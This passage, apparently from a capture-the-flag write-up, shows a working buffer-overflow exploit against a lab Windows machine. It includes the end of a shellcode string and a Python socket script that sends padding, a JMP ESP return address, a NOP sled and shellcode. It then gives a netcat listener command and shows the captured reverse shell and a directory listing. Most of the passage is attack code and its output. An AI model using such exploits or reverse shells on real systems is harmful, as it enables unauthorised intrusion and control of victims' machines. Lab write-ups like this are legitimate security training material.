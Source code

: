 ```python
"\xe6\x3d\x0e\xae\xa9\xb5\x7b\xbc\x5e\x36\x36\x9e\xc9\x49\xec"
"\xb6\x96\xd8\x6b\x46\xd0\xc0\x23\x11\xb5\x37\x3a\xf7\x2b\x61"
"\x94\xe5\xb1\xf7\xdf\xad\x6d\xc4\xde\x2c\xe3\x70\xc5\x3e\x3d"
"\x78\x41\x6a\x91\x2f\x1f\xc4\x57\x86\xd1\xbe\x01\x75\xb8\x56"
"\xd7\xb5\x7b\x20\xd8\x93\x0d\xcc\x69\x4a\x48\xf3\x46\x1a\x5c"
"\x8c\xba\xba\xa3\x47\x7f\xca\xe9\xc5\xd6\x43\xb4\x9c\x6a\x0e"
"\x47\x4b\xa8\x37\xc4\x79\x51\xcc\xd4\x08\x54\x88\x52\xe1\x24"
"\x81\x36\x05\x9a\xa2\x12")


#JMP ESP 0x080414c3 
#JMP ESP 0x080416bf


string = 'A'*146 + "\xBF\x16\x04\x08" + "\x90"*16 + shell

host = '10.10.25.76'
ip = 31337

try:
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((host,ip))
	print "sending evil payload"
	s.send(string+"\r\n")
	data = s.recv(1024)
	print("Done!")
	s.close()

except:
	print "error"
	sys.exit()
```
run the exploit after running the listener with
```
nc -nlvp 4444
```
```
┌──(root💀kali)-[/home/kali]
└─# nc -nlvp 4444                 
listening on [any] 4444 ...
connect to [10.9.3.214] from (UNKNOWN) [10.10.25.76] 49180
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\natbat\Desktop>
```
and boom.. we have now a reverse shell

## user.txt
```
┌──(root💀kali)-[/home/kali]
└─# nc -nlvp 4444                 
listening on [any] 4444 ...
connect to [10.9.3.214] from (UNKNOWN) [10.10.25.76] 49180
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\natbat\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 3ABE-D44B

 Directory of C:\Users\natbat\Desktop
```
